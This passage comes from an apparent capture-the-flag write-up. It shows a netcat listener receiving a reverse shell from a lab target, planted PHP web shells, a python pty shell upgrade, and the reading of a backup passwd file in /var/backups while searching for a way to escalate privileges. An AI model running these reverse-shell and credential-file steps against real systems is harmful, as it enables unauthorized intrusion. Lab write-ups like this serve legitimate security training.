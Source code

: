 ```sh
sudo nc -nlvp 1234
[sudo] password for itatshi: 
listening on [any] 1234 ...
connect to [10.6.51.254] from (UNKNOWN) [10.10.56.245] 41264
bash: cannot set terminal process group (1250): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu-xenial:/var/www/html/YouGotTh3P@th/img$ ls
ls
frontpage
gallery
php_revshell.php
webshell.php

```

Let's upgrade our shell .

```sh
python -c 'import pty; pty.spawn("/bin/sh")'
$ export TERM=xterm
```

Right now we can't read the user flag.

There is a hint saying to check for backups but for some reason the find command is forbidden.

I checked the backup directory

```sh
www-data@ubuntu-xenial:/var/backups$ ls -la
ls -la
total 636
drwxr-xr-x  2 root root     4096 Dec  9 10:04 .
drwxr-xr-x 14 root root     4096 Dec  6 06:00 ..
-r--r--r--  1 root root     1722 Dec  6 13:19 .bak.passwd
-rw-r--r--  1 root root    51200 Dec  6 06:25 alternatives.tar.0
-rw-r--r--  1 root root     6308 Dec  9 06:46 apt.extended_states.0
-rw-r--r--  1 root root      715 Dec  6 17:08 apt.extended_states.1.gz
-rw-r--r--  1 root root      509 Nov 12 19:53 dpkg.diversions.0
-rw-r--r--  1 root root      207 Dec  6 06:01 dpkg.statoverride.0
-rw-r--r--  1 root root   547201 Dec  6 06:19 dpkg.status.0
-rw-------  1 root root      849 Dec  6 06:17 group.bak
-rw-------  1 root shadow    714 Dec  6 06:17 gshadow.bak
-rw-------  1 root root     1695 Dec  6 13:19 passwd.bak
-rw-------  1 root shadow   1031 Dec  6 06:17 shadow.bak
www-data@ubuntu-xenial:/var/backups$ cat .bak.passwd
cat .bak.passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
```